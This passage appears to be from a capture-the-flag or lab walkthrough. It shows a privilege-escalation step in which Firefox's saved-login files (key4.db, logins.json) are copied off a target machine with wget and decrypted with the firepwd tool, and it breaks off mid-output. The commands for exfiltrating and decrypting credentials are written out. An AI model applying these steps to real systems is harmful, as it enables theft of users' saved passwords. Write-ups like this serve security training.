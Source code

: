 ```
minhtuan@ubuntu:~$ export SHELL=bash
export SHELL=bash
minhtuan@ubuntu:~$
```

## Step 3 - Privilege Escalation

In the home directory of ```minhtuan```, there was a hidden folder labeled ```.mozilla```.

After some directory searching, two files labeled ```key4.db``` and ```logins.json``` were discovered.

These two files are used by Mozilla to store saved login credentials.

The credentials were decrypted and recovered using [this tool](https://github.com/lclevy/firepwd).

The two files were downloaded to the attacking machine using ```wget```

```
$ mkdir loot; cd loot

$ wget http://192.168.159.179:8000/key4.db                                          
--2022-10-22 00:12:27--  http://192.168.159.179:8000/key4.db
Connecting to 192.168.159.179:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294912 (288K) [application/octet-stream]
Saving to: ‘key4.db’

key4.db                                                    100%[========================================================================================================================================>] 288.00K  --.-KB/s    in 0.001s  

2022-10-22 00:12:27 (191 MB/s) - ‘key4.db’ saved [294912/294912]

$ wget http://192.168.159.179:8000/logins.json
--2022-10-22 00:12:31--  http://192.168.159.179:8000/logins.json
Connecting to 192.168.159.179:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 660 [application/json]
Saving to: ‘logins.json’

logins.json                                                100%[========================================================================================================================================>]     660  --.-KB/s    in 0s      

2022-10-22 00:12:31 (187 MB/s) - ‘logins.json’ saved [660/660]
```

The files were then decrypted and credentials were successfully recovered.

```
$ python3 firepwd.py -h
Usage: firepwd.py [options]

Options:
  -h, --help            show this help message and exit
  -v VERBOSE, --verbose=VERBOSE
                        verbose level
  -p MASTERPASSWORD, --password=MASTERPASSWORD
                        masterPassword
  -d DIRECTORY, --dir=DIRECTORY
                        directory

$ python3 firepwd.py -d ./loot
globalSalt: b'5932ff5878417b64a4049f8d9ce7b3ab247fde15'
 SEQUENCE {
```